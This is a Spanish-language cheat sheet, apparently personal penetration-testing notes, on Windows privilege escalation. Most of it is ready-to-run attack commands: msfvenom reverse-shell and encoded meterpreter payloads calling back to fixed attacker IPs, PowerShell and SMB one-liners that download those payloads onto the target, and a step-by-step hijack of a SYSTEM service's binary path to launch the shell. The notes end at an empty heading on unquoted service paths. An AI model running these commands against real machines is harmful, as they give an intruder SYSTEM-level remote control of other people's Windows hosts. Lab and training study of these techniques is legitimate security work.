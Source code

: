 # Privilege Escalation

## Reverse Shell

- Generamos un reverse shell con msfvenom
  
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.145.69 lport=53 -f exe -o reverse.exe
```

```bash
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder /x86/shikata_ga_nai LHOST=10.6.4.115 LPORT=4444 -f exe -o shell.exe
```

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.6.4.115 lport=4444 -f aspx -o shell.aspx
```



- Ponemos un servidor impacket

```shell
/usr/local/bin/smbserver.py kali .
```

- Copiar el revershell a la paquina con windows

```bash
copy \\10.10.145.69\kali\reverse.exe .
```

- Otra opcion es un servdor http y luego descargarlo con windows

```shell

```

```cmd
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.4.115/shell.exe')"
```

```cmd
powershell Invoke-WebRequest -Uri http://10.6.4.115/shell.exe -Outfile shell.exe
```

```cmd
powershell Invoke-WebRequest -Uri http://10.6.4.115/winPEAS.bat -Outfile winPEAS.bat 
```

## Service Exploits - Insecure Service Permissions

- Revisar los permisos de un usuario sobre un servicio determinado y vemos que lo puede modificar en su configuracion

```cmd
 accesschk.exe /accepteula -uwcqv user daclsvc
```

- Consultamos el servicio y vemos que corre como system
  
```cmd
sc qc daclsvc
```

- Modficamos la ruta del servicio para apuntarlo a nuestro reverse shell
  
```cmd
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

- Ponemos escucha en kali
  
```bash
nc -lnvp 4444
```

- Iniciamos el servicio en windows

```cmd
net start daclsvc
```

https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk

## Service Exploits - Unquoted Service Path

